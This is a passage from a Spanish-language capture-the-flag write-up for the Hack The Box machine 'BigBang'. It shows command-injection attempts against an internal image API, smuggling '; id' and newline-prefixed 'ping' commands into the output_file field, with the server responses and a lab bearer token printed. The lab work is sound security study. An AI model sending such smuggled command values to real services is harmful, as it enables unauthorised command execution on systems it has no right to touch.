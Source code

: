 ~~~ json
{ "command": "send_image", "output_file": ""}
~~~


## Command Injection

Intentaremos enviar un comando a través del valor de `output_file` intentando inyectar de alguna forma un caracter que nos permita ejecutar una instrucción en el sistema

~~~ bash
curl -siX POST http://app.bigbang.htb:9090/command -H 'Content-Type: application/json' -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0NjMyNDUwNCwianRpIjoiNzNiZmJmYmYtZDg0My00Y2EyLWE1OTYtOGUxM2FlYjdkOTQzIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmVsb3BlciIsIm5iZiI6MTc0NjMyNDUwNCwiY3NyZiI6IjE5NzgwYzM5LWI0NjQtNGExNy1iYWJkLTQwMjJmMWFiOTE5ZSIsImV4cCI6MTc0NjMyODEwNH0.krPlc88XT-qNr4KRQazfeB7Bg9bRnS8esUpbYxaRtNI' -d '{ "command": "send_image", "output_file": "; id"}'        
HTTP/1.1 400 BAD REQUEST
Server: Werkzeug/3.0.3 Python/3.10.12
Date: Sun, 04 May 2025 02:40:52 GMT
Content-Type: application/json
Content-Length: 59
Connection: close

{"error":"Output file path contains dangerous characters"}
~~~

Cuando intentamos una inyección simple como `;`, el servidor bloquea nuestra solicitud. Podemos seguir intentando con demás caracteres (incluso `unicode`), hasta lograr ejecución de comandos

~~~ bash
curl -siX POST http://app.bigbang.htb:9090/command -H 'Content-Type: application/json' -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0NjMyNDUwNCwianRpIjoiNzNiZmJmYmYtZDg0My00Y2EyLWE1OTYtOGUxM2FlYjdkOTQzIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmVsb3BlciIsIm5iZiI6MTc0NjMyNDUwNCwiY3NyZiI6IjE5NzgwYzM5LWI0NjQtNGExNy1iYWJkLTQwMjJmMWFiOTE5ZSIsImV4cCI6MTc0NjMyODEwNH0.krPlc88XT-qNr4KRQazfeB7Bg9bRnS8esUpbYxaRtNI' -d '{ "command": "send_image", "output_file": "\n ping -c1 10.10.15.9"}'
HTTP/1.1 500 INTERNAL SERVER ERROR
Server: Werkzeug/3.0.3 Python/3.10.12
Date: Sun, 04 May 2025 02:45:11 GMT
Content-Type: application/json
Content-Length: 101
Connection: close

{"error":"Error reading image file: [Errno 2] No such file or directory: '\\n ping -c1 10.10.15.9'"}
~~~

Además podemos hacer una inyección con caracteres `unicode`

~~~ bash
curl -siX POST http://app.bigbang.htb:9090/command -H 'Content-Type: application/json' -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0NjMyNDUwNCwianRpIjoiNzNiZmJmYmYtZDg0My00Y2EyLWE1OTYtOGUxM2FlYjdkOTQzIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmVsb3BlciIsIm5iZiI6MTc0NjMyNDUwNCwiY3NyZiI6IjE5NzgwYzM5LWI0NjQtNGExNy1iYWJkLTQwMjJmMWFiOTE5ZSIsImV4cCI6MTc0NjMyODEwNH0.krPlc88XT-qNr4KRQazfeB7Bg9bRnS8esUpbYxaRtNI' -d '{ "command": "send_image", "output_file": "\u000a ping -c1 10.10.15.9"}'
HTTP/1.1 500 INTERNAL SERVER ERROR
Server: Werkzeug/3.0.3 Python/3.10.12
Date: Sun, 04 May 2025 02:44:07 GMT
Content-Type: application/json
Content-Length: 101
Connection: close

{"error":"Error reading image file: [Errno 2] No such file or directory: '\n ping -c1 10.10.15.9'"}
~~~
